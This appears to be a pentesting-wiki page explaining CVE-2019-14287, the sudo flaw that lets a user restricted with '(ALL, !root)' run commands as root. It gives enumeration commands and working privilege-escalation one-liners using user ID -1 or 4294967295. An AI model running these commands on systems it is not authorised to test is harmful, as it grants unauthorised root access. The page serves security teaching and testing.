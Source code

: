 ```yaml
---
description: CVE-2019-14287
---
```


# Bypass of User Restrictions

## Theory  

The sudo vulnerability CVE-2019-14287 is a security policy bypass issue that provides a user or a program the ability to execute commands as root on a Linux system when the "sudoers configuration" explicitly disallows the root access. Exploiting the vulnerability requires the user to have sudo privileges that allow them to run commands with an arbitrary user ID, except root.

## Practice  


{% tabs %}
{% tab title="Enumerate" %}
To exploit, sudo version must be vulnerable (sudo < **1.8.28**)

```bash
$ sudo -V
Sudo version 1.8.27
```

You must be able to run a command with sudo with an arbitrary user ID, except root
```bash
$ sudo -l
[...]
(ALL, !root) ALL
```
{% endtab %}

{% tab title="Exploit" %}
If you have a full TTY, you can exploit it like this
```bash
sudo -u#-1 /bin/bash
sudo -u#4294967295 id
```
{% endtab %}
{% endtabs %}